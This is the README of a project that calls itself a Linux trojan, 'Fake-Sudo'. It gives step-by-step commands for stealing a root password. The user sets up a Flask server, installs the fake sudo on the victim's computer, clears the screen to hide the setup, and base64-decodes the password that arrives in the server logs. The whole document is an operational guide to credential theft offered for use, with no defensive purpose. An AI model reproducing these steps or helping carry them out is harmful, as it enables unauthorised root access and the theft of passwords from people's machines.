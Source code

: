 # Fake-Sudo
A linux trojan
## How to use
<b>WARNING: this only works for linux users.</b><br><br><br>
The following commands shall be executed in the terminal.
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Install pip if you haven't already<br>`sudo apt instal pip -y`
3. Make a server<br>`pip install flask`<br>`python3 flask.py`
4. Go to the computer you want to steal the root password from
5. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
6. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
7. Clear the screen<br>`clear`
8. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
9. Once the server log says something, copy the end of the url (e.x. `ip - - [time] "GET /<u>i-am-the-end-of-a-url</u> HTTP/1.1" 404 -`)and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
10. That's it!
